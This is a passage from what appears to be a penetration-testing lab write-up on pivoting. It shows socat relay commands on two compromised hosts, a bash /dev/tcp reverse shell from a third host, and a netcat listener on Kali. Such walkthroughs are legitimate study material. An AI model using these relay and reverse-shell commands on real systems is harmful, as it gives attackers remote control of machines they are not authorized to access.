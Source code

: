 <div align="left">

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

</div>

of course, to see webpage via browser we need to reconfigure proxy settings or foxy proxy.

Very good, we can access to target 3 using: `proxychains ssh ubuntu@`\<t3\_nat3>

But we've always the same problem, we can't reach out kali from target 3 and spawn a rev shell.

We can solve it establish a new session of socat on target 2, which will establish a connection starting from machine 2, passing through 1, until arriving at kali.

<pre class="language-bash"><code class="lang-bash">#Target 2
./socat tcp-l:3333,fork,reuseaddr tcp:&#x3C;t1_nat2>:4444 #tcp-l: listening port, send data to tcp:attacker:port
<strong>#Target 1
</strong>./socat tcp-l:4444,fork,reuseaddr tcp:&#x3C;kali_nat1>:2222  #tcp-l: listening port, send data to tcp:attacker:port
</code></pre>

### Reverse Shell

{% embed url="https://www.revshells.com/" %}

We create a  bash reverse shell using target 2 IP machine (on the same subnet of target 3), and listening on kali machine using netcat:

```bash
#Kali
nc -nvlp 2222 #same port of socat on target 1
#Target 3
sh -i >& /dev/tcp/<t2_nat3>/3333 0>&1
```

<div align="left">

<figure><img src="../../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>
